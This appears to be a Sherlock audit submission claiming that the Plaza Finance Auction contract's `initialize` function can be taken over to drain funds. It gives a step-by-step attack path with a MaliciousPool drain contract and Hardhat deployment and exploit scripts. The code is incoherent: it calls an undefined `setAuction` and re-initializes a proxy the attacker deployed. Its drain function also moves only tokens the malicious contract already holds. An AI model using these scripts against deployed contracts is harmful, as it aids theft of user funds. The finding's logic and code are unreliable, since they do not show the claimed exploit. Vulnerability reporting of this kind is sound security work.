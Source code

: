 Main Bamboo Alpaca

High

# Auction Takeover and Funds Draining

### Summary



The `initialize` function in `Auction.sol` allows any address to set the `pool` variable without restrictions. This lack of access control can enable malicious actors to initialize the contract with a harmful `pool` address, compromising auction operations.



### Root Cause

The `initialize` function is `public` and lacks access control, allowing anyone to call it and set `pool = msg.sender`.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/14a962c52a8f4731bbe4655a2f6d0d85e144c7c2/plaza-evm/src/Auction.sol#L112-L113

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path



####  Step 1: Deploy a Malicious Pool Contract

The attacker first deploys a malicious contract designed to manipulate or drain funds from the `Auction` contract once it is set as the `pool`.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract MaliciousPool {
    address public auction;

    constructor(address _auction) {
        auction = _auction;
    }

    // Example malicious function to drain reserve tokens
    function drainFunds(address reserveToken) external {
        IERC20(reserveToken).transfer(msg.sender, IERC20(reserveToken).balanceOf(address(this)));
    }

    // Additional malicious functionalities as needed
}
```

#### Step 2: Deploy the `Auction` Proxy Contract

The attacker deploys an `Auction` proxy pointing to the vulnerable `Auction.sol` implementation.

```solidity
// Using Hardhat or Truffle Framework

const { ethers, upgrades } = require("hardhat");

async function main() {
    const [attacker] = await ethers.getSigners();

    // Deploy MaliciousPool
    const MaliciousPool = await ethers.getContractFactory("MaliciousPool");
    const maliciousPool = await MaliciousPool.deploy(/* Auction address will be set later */);
    await maliciousPool.deployed();
    console.log("MaliciousPool deployed at:", maliciousPool.address);

    // Deploy Auction Proxy
    const Auction = await ethers.getContractFactory("Auction");
    const auctionProxy = await upgrades.deployProxy(Auction, [
        /* _buyCouponToken */,
        /* _sellReserveToken */,
        /* _totalBuyCouponAmount */,
        /* _endTime */,
        /* _maxBids */,
        /* _beneficiary */,
        /* _poolSaleLimit */
    ], { initializer: 'initialize' });
    await auctionProxy.deployed();
    console.log("Auction Proxy deployed at:", auctionProxy.address);

    // Update MaliciousPool with Auction address
    await maliciousPool.setAuction(auctionProxy.address);
}
```


####  Step 3: Initialize the `Auction` Proxy with Malicious `pool` Address

Since the `initialize` function is unrestricted, the attacker can call it to set the `pool` address to their malicious contract.

```solidity
// Continuing from the previous script

async function exploit() {
    const [attacker] = await ethers.getSigners();

    // Connect to the Auction proxy as the attacker
    const auctionProxy = await ethers.getContractAt("Auction", "Auction_Proxy_Address_Here", attacker);

    // Call initialize to set pool to MaliciousPool
    await auctionProxy.initialize(
        /* _buyCouponToken */,
        /* _sellReserveToken */,
        /* _totalBuyCouponAmount */,
        /* _endTime */,
        /* _maxBids */,
        /* _beneficiary */,
        /* _poolSaleLimit */
    );
}
```

**Outcome:** After this call, `pool` is set to the attacker's `MaliciousPool` contract.

#### ** Step 4: Exploit the Malicious `pool`**

With the `pool` address now pointing to `MaliciousPool`, the attacker can execute malicious functions to manipulate the auction or drain funds.

```solidity
// Interacting with MaliciousPool to drain funds

async function drainFunds() {
    const [attacker] = await ethers.getSigners();

    const MaliciousPool = await ethers.getContractAt("MaliciousPool", "MaliciousPool_Address_Here", attacker);

    // Call drainFunds to transfer reserve tokens to the attacker
    await MaliciousPool.drainFunds("Reserve_Token_Address_Here");
}
```

**Result:** The attacker successfully transfers reserve tokens from the `Auction` contract to their own address.



### Impact

- **Full Control:** Attackers can manipulate auction functionalities by setting `pool` to a malicious contract.
- **Fund Drain:** Unauthorized transfers and fund withdrawals are possible.
- **Protocol Disruption:** Malicious actions can destabilize auction processes and overall protocol integrity.
- **Loss of Trust:** Users may lose confidence in the platform’s security, leading to decreased participation.


### PoC

   ```solidity
   contract MaliciousPool {
       address public auction;
       constructor(address _auction) { auction = _auction; }
       function drain(address reserveToken) external {
           IERC20(reserveToken).transfer(msg.sender, IERC20(reserveToken).balanceOf(address(this)));
       }
   }
   ```

**Deploy Auction Proxy and Initialize:**
   
   ```solidity
   // Using Hardhat
   const Auction = await ethers.getContractFactory("Auction");
   const auctionProxy = await upgrades.deployProxy(Auction, [/* parameters */], { initializer: 'initialize' });
   await auctionProxy.deployed();
   
   // Initialize with attacker as pool
   await auctionProxy.initialize(/* parameters */, attacker.address);
```


### Mitigation

Implement Access Control.